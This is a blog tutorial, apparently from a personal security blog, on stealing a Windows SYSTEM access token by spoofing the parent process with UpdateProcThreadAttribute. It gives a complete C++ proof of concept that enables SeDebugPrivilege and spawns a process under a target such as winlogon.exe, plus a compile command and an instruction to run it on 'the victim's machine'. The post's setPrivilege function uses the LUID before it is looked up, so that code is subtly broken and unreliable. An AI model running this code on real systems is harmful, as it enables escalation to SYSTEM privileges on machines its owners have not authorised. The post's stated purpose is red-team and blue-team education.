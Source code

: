 ```yaml
---
title:  "APT techniques: Token theft via UpdateProcThreadAttribute. Simple C++ example."
date:   2022-10-28 03:00:00 +0300
header:
  teaser: "/assets/images/77/2022-10-29_03-59.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![token](/assets/images/77/2022-10-29_03-59.png){:class="img-responsive"}    

This post is the result of self-researching one of the interesting APT techniques: Token theft via UpdateProcThreadAttribute.    

In the previous [post](/tutorial/2022/09/25/token-theft-1.html) I wrote about classic token theft via `DuplicateTokenEx` and `CreateProcessWithTokenW`. Today I will describe an alternative method that works starting from Windows Vista.     

### UpdateProcThreadAttribute

In the first part of my tutorial, we just doing classic trick: enable `SE_DEBUG_PRIVILEGE`, open a token from any system process (which works even for protected processes also), duplicate the token, adjust privileges on it, and then impersonate with this token.     

Today we can use more simply trick. Microsoft implemented in Vista the ability to designate an explicit parent process when creating a new process, allowing the elevated process to remain a child of the caller.

Typically, in the UAC instance, you must issue an explicit token to the new process. If you do not supply a token, the new process will inherit from the designated parent. The only condition is that the handle to the parent process must have the `PROCESS_CREATE_PROCESS` access privilege.     

So, we just open some system process with `PROCESS_CREATE_PROCESS` access right. Then use this handle with `UpdateProcThreadAttribute`. In consequence, your process inherits a token from the system process.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

And all you need for working this is `SE_DEBUG_PRIVILEGE`.    

### technique. practical example

First of all, sometimes you must turn on `SeDebugPrivilege` in your current set of privileges:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```

Then, open a process whose access token you wish to steal with `PROCESS_CREATE_PROCESS` access rights:    

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

After that, use it is handle with `UpdateProcThreadAttribute`:    

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Finally, create process:     

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
```

So, the full source code of this logic is look like this:       

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

As you can see, the code is slightly different from the previous part. This code is just dirty PoC, for simplicity, I run `mspaint.exe`.      

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![token](/assets/images/77/2022-10-29_03-48.png){:class="img-responsive"}    

Then, run it at the victim's machine:    

```powershell
.\hack.exe <PID>
```

![token](/assets/images/77/2022-10-29_03-56.png){:class="img-responsive"}    

As an example, you may steal the `winlogon.exe (PID: 544)` access token:     

![token](/assets/images/77/2022-10-29_03-57.png){:class="img-responsive"}    

![token](/assets/images/77/2022-10-29_03-58.png){:class="img-responsive"}    

![token](/assets/images/77/2022-10-29_03-59_1.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!     

I hope this post least a little useful for entry level cyber security specialists (and possibly even professionals), also spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.     

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[source code in github](https://github.com/cocomelonc/2022-10-28-token-theft-2)        

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
